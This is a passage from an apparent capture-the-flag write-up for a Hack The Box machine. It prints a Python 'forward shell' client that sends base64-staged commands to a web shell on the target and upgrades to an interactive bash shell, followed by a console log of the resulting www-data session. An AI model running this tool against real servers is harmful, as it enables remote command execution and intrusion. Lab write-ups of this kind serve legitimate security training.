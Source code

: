 ```python
                ClearOutput = f'echo -n "" > {self.stdout}'
                self.RunRawCmd(ClearOutput)
            time.sleep(self.interval)
        
    # Execute Command.
    def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
        #print(f"Going to run cmd: {cmd}")
        # MODIFY THIS: This is where your payload code goes
        data = { 'cmd' : cmd}

        if proxy:
            proxies = self.proxies
        else:
            proxies = {}
       
        # MODIFY THIS: Payload in User-Agent because it was used in ShellShock
        headers = {'User-Agent': 'test'}
        try:
            r = requests.post(self.url, headers=headers,data=data, proxies=proxies, timeout=timeout)
            return r.text
        except:
            pass
            
    # Send b64'd command to RunRawCommand
    def WriteCmd(self, cmd):
        b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
        stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
        self.RunRawCmd(stage_cmd)
        time.sleep(self.interval * 1.1)

    def UpgradeShell(self):
        # upgrade shell
        UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
        self.WriteCmd(UpgradeShell)

prompt = "Forward Shell> "
S = WebShell()
while True:
    cmd = input(prompt)
    if cmd == "upgrade":
        prompt = ""
        S.UpgradeShell()
    else:
        S.WriteCmd(cmd)
```
Now let us run the script.
```console
local@local:~/Documents/htb/boxes/compromised/forward-shell$ python3 forward-shell.py 
[*] Session ID: 62514
[*] Setting up fifo shell on target
[*] Setting up read thread
Forward Shell> pwd   
/var/www/html/shop/vqmod/xml

Forward Shell>cd ..
Forward Shell> pwd
/var/www/html/shop/vqmod
Forward Shell> upgrade
www-data@compromised:/var/www/html/shop/vqmod$ 
```
Now we get a persistent shell and I also used `upgrade` command to upgrade our shell. 
